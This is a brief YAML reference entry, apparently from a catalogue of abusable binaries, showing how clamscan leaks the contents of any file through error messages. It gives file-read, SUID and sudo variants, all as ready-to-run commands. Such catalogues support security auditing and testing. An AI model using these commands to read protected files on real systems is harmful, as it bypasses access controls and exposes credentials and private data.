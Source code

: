 ```yaml
---
description: Each line of the file is interpreted as a path and the content is leaked via error messages, thus this might not be suitable to read binary files. The output can optionally be cleaned using `sed`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        touch $TF/empty.yara
        clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
  suid:
    - code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        touch $TF/empty.yara
        ./clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
  sudo:
    - code: |
        LFILE=file_to_read
        TF=$(mktemp -d)
        touch $TF/empty.yara
        sudo clamscan --no-summary -d $TF -f $LFILE 2>&1 | sed -nE 's/^(.*): No such file or directory$/\1/p'
---
```

